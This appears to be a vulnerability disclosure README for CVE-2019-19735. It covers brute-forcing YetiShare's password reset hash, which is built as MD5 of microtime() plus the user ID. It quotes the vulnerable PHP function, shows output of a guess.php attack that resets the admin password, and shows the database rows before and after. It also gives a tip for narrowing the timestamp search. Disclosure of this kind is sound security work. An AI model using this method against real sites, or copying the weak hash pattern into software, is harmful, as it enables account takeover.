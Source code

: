 # CVE-2019-19735
YetiShare password reset hash bruteforce - v3.5.2 - v4.5.3. Possible to bruteforce the password reset hash due to weak hash function

The guess.php script can be modified to cover the whole microsecond span. Thanks to Andreas Gustafsson and Robin Gustafsson for pointing out that the last two digits in the microseconds from microtime() is always zero and can be skipped when incrementing.

```
user@ayu:~/Desktop$ time php guess.php 
[+] Creating range and starting attack, this can take an hour or more
[+] Got 1575725248. Testing 0.57667000 - 0.93107200 
[+] New password set: password2
real    146m14,018s
user    3m46,868s
sys 6m37,106s
```

Before and after of the user row for the admin user
```
mysql> select email, passwordResetHash, password from users;
+--------------------+----------------------------------+----------------------------------+
| email              | passwordResetHash                | password                         |
+--------------------+----------------------------------+----------------------------------+
| email@yoursite.com | cc7229f58be29db8277c483963a6fc7a | 5f4dcc3b5aa765d61d8327deb882cf99 |
+--------------------+----------------------------------+----------------------------------+
1 row in set (0.00 sec)

mysql> select email, passwordResetHash, password from users;
+--------------------+-------------------+----------------------------------+
| email              | passwordResetHash | password                         |
+--------------------+-------------------+----------------------------------+
| email@yoursite.com |                   | 6cb75f652a9b52798eb6cf2201057c73 |
+--------------------+-------------------+----------------------------------+
1 row in set (0.00 sec)
```


class.userpeer.php - row 35
```
    static function createPasswordResetHash($userId)
    {
        $user = true;

        // make sure it doesn't already exist on an account
        while ($user != false)
        {
            // create hash
            $hash = MD5(microtime() . $userId);

            // lookup by hash
            $user = self::loadUserByPasswordResetHash($hash);
        }

        // update user with hash
        $db = Database::getDatabase(true);
        $db->query('UPDATE users SET passwordResetHash = :passwordResetHash WHERE id = :id', array('passwordResetHash' => $hash, 'id'                => $userId));

        return $hash;
    }
```


